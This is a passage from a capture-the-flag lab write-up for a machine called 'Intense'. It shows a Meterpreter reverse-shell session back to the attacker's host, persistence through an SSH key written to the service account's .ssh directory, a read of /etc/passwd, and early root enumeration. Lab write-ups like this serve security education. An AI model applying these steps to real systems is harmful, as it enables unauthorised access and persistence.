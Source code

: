 ```ruby
[*] Meterpreter session 1 opened (10.10.14.22:4444 -> 10.10.10.195:41304) at 2020-11-14 15:18:02 +0100
meterpreter >
```

We get a meterpreter shell and can now further enumerate the system with the shell.

```bash
Debian-snmp@intense:~$ pwd && ls -alh
/var/lib/snmp
total 32K
drwxr-xr-x  7 Debian-snmp Debian-snmp 4.0K Nov 14 14:16 .
drwxr-xr-x 38 root        root        4.0K Nov 16  2019 ..
drwx------  2 Debian-snmp Debian-snmp 4.0K Nov 16  2019 .cache
drwx------  3 Debian-snmp Debian-snmp 4.0K Nov 16  2019 .gnupg
drwxr-xr-x  2 Debian-snmp Debian-snmp 4.0K Jun 30 09:00 .ssh
drwx------  2 root        root        4.0K Nov 16  2019 mib_indexes
drwxr-xr-x  4 Debian-snmp Debian-snmp 4.0K Nov 16  2019 mibs
-rwx------  1 root        root           0 Jul  9 08:24 snmp.local.conf
-rw-------  1 Debian-snmp Debian-snmp 1.1K Nov 14 14:16 snmpd.conf
```

Checking our home-directory as the user `Debian-snmp` , we can write to our `.ssh` directory to get permanent access to the system.

```bash
root@darkness:~# ssh Debian-snmp@10.10.10.195 -i ssh.key
[...]
Last login: Tue Jun 30 09:34:08 2020 from 10.10.14.2
Connection to 10.10.10.195 closed.
```

We can login via ssh, however we do not get a shell. Checking back at `/etc/passwd`:

```bash
Debian-snmp@intense:~$ cat /etc/passwd
[...]
Debian-snmp:x:111:113::/var/lib/snmp:/bin/false
```

We have `/bin/false` set, so we cannot get a shell.

## Privesc - Root

Now that we have a shell on the system and successfully read user.txt, we can further enumerate the system to get a shell as root.

### Enumeration as Debian-snmp

 Remembering back to the home-directory-listing of the user `user`, we have some sort of C-source-code file. Let use the meterpreter-shell to check back on the home-directory again.

```bash
Debian-snmp@intense:/home/user$ ls -alh
total 76K
drwxr-xr-x 5 user user 4.0K Jun 29 06:30 .
drwxr-xr-x 3 root root 4.0K Nov 16  2019 ..
lrwxrwxrwx 1 root root    9 Nov 23  2019 .bash_history -> /dev/null
-rw-r--r-- 1 user user  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 user user 3.7K Apr  4  2018 .bashrc
drwx------ 2 user user 4.0K Nov 16  2019 .cache
drwx------ 3 user user 4.0K Nov 16  2019 .gnupg
-rw-r--r-- 1 user user  807 Apr  4  2018 .profile
-rw-r--r-- 1 root root   75 Nov 23  2019 .selected_editor
drwxr-xr-x 2 user user 4.0K Jun 29 09:31 .ssh
-rw-r--r-- 1 user user    0 Nov 16  2019 .sudo_as_admin_successful
-rw------- 1 root root  13K Nov 23  2019 .viminfo
-rwxrwxr-x 1 user user  13K Nov 16  2019 note_server
```